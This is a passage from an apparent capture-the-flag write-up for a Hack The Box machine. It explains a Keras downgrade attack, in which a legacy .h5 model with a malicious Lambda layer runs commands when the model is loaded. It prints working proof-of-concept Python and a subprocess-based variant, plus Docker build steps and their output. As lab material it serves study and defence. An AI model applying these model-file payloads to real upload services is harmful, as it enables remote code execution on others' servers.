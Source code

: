 > This is the behavior of version 2.13 and later of the Keras API: an exception will be raised in a program that attempts to load a model with Lambda layers stored in version 3 of the format. <u>This check, however, does not exist int he prior versions of the API. Nor is the check performed on models that have been stored using earlier versions of the Keras serialization format (i.e., v2 SavedModel, ***legacy H5***)</u>
- You can't make this up. Data Scientists are the worst.
### Keras Downgrade Attack
- So all I need to do is use a vulnerable version of `tensorflow_cpu` and `keras`, create a malicious model, and upload it.
- Even though the system I upload to is patched, they allow legacy `.h5`, which means I should be able to create any old reverse shell that I want.
- Here's the PoC code:
```python
import tensorflow as tf

def exploit(x):
	import os
	os.system("echo pwned from execve")
	return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

### Building the Payload
- Alrighty.
- Let's create this bad boy, preferably in a Docker container so I don't have gigantic useless packages on my system (or use python 3.10 locally):
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(norm)> sudo docker run -v .:/exploit/ --entrypoint /bin/bash -it python:3.10-slim  
root@53e914f2ce75:/# pip install tensorflow-cpu==2.12.0
```
- To start, I'll build the PoC and see how it does:
```a
root@53e914f2ce75:/exploit# python3 build_payload.py    
2025-08-01 19:19:08.980217: I tensorflow/core/platform/cpu_feature_guard.cc:182] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.  
To enable the following instructions: AVX2 FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.  
pwned from execve
```
- Cool, now I just need to upload this to the site and see what happens.
- So clicking the "View Predictions" button doesn't actually show you any results. That sucks. I'd assume that this means it doesn't work.
- The homepage of the site shows some sample code, after building a model with that, I can see that the "View Predictions" button will show results. From this, I just need to build a vulnerable version of that code.
- After attempting a few vulnerabilities, I came to the realization that it's faster to build the docker image that they provide the Dockerfile for. This way I can test and debug to see why the payloads aren't working. Just to document, one exploit I tried out was:
```python
class ExploitLayer(tf.keras.layers.Layer):
    @property
    def output_shape(self):
        import subprocess
        result=subprocess.run(['ls'], capture_output=True, text=True)
        return (result.stdout, 1)
    
    def call(self, inputs):
        return inputs
```